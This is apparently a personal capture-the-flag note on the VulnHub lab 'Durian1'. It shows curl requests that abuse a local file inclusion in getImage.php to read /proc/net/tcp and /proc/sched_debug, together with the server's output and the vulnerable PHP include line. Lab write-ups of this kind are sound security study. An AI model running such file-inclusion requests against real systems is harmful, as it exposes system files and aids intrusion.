 # ENUMERACION LINUX PROC

```ruby
┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/Durian1/nmap]
└─$ curl -s X GET http://192.168.200.143/cgi-data/getImage.php?file=/proc/net/tcp
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
  /*
</?php include $_GET['file']; */
</body>
</html>


  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                 
   0: 00000000:1BA8 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 17784 1 00000000423e3277 100 0 0 10 128               
   1: 0100007F:0CEA 00000000:0000 0A 00000000:00000000 00:00000000 00000000   106        0 17962 1 000000009754e893 100 0 0 10 0                 
   2: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 17586 1 00000000bbc30e72 100 0 0 10 0                 
   3: 00000000:1F98 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 17786 1 00000000bfca24be 100 0 0 10 128               
                                                                                                                                                                                        
```


[Conver ibase obase](https://linuxhint.com/convert_hexadecimal_decimal_bash/)


┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/Durian1/nmap]
└─$ curl -s -X GET http://192.168.200.143/cgi-data/getImage.php?file=/proc/sched_debug

<!DOCTYPE html>

<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
  /*
</?php include $_GET['file']; */
</body>
</html>

Sched Debug Version: v0.11, 4.19.0-10-amd64 #1
ktime                                   : 417145.373424
sched_clk                               : 417166.588248
cpu_clk                                 : 417161.705715
jiffies                                 : 4294996347
sched_clock_stable()                    : 1

sysctl_sched
.sysctl_sched_latency                    : 6.000000
.sysctl_sched_min_granularity            : 0.750000
.sysctl_sched_wakeup_granularity         : 1.000000
.sysctl_sched_child_runs_first           : 0
.sysctl_sched_features                   : 4118331
.sysctl_sched_tunable_scaling            : 1 (logaritmic)
